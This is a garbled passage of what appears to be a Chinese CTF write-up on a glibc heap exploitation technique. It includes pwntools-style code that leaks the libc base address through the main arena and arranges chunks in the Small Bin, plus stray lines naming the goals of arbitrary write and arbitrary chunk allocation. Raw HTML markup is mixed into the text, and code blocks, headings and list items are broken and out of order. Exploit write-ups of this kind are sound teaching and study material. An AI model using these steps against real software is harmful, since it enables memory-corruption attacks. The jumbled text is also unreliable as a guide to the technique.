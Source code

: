 ```
<pre class="md-fences md-end-block ty-contain-cm modeLoaded" style="box-sizing: border-box; overflow: visible; font-family: var(--monospace); font-size: 0.9em; display: block; break-inside: avoid; text-align: left; background-image: inherit; background-position: inherit; background-size: inherit; background-repeat: inherit; background-attachment: inherit; background-origin: inherit; background-clip: inherit; background-color: #f8f8f8; border-radius: 3px; padding: 8px 4px 6px; margin-bottom: 15px; margin-top: 15px; width: inherit; color: #333333; border: 1px solid #e7eaed;" spellcheck="false">creat(sh,1,4,'Chunk_1')
creat(sh,13,3,'Chunk_13')
delete(sh,1)
show(sh,1)
libc_base = get_address(sh,'We leak main arena address is ','','\x0A') - 0x1E4CA0
log.success('We get libc base address is ' + str(hex(libc_base)))</pre>
 
<h3 name="h3-8" id="h3-8">向Small Bin中加入两个Chunk</h3>
此时在`Unsorted Bin`中已经有一个0x410大小的Chunk了，现在我们申请两个0x300大小的Chunk，程序会将0x100大小的Chunk放入`Small Bin`中。
<pre class="md-fences md-end-block ty-contain-cm modeLoaded" style="box-sizing: border-box; overflow: visible; font-family: var(--monospace); font-size: 0.9em; display: block; break-inside: avoid; text-align: left; background-image: inherit; background-position: inherit; background-size: inherit; background-repeat: inherit; background-attachment: inherit; background-origin: inherit; background-clip: inherit; background-color: #f8f8f8; border-radius: 3px; padding: 8px 4px 6px; margin-bottom: 15px; margin-top: 15px; width: inherit; color: #333333; border: 1px solid #e7eaed;" spellcheck="false">creat(sh,13,3,'Chunk_13')
creat(sh,13,3,'Chunk_13')<code class="lang-python hljs">
```
<li class="md-list-item" style="box-sizing: border-box; margin: 0px; position: relative;">
向任意指定位置写入指定值。
</li>
<li class="md-list-item" style="box-sizing: border-box; margin: 0px; position: relative;">
向任意地址分配一个Chunk。
</li>
#### 攻击前提

### 题目分析

### 泄露Heap地址及Libc地址

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-02-123511.png)

然后我们再次申请一个0x400的Chunk，释放，再申请一个0x300的Chunk，在Small Bin中再次加入一个大小为0x100的`Chunk`。

⚠️：为防止`Top Chunk`合并，需要在最后额外申请一个Chunk。

```
creat(sh,2,4,'Chunk_2')
creat(sh,13,4,'Chunk_13')
delete(sh,2)
creat(sh,13,3,'Chunk_13')
creat(sh,13,3,'Chunk_13')
```
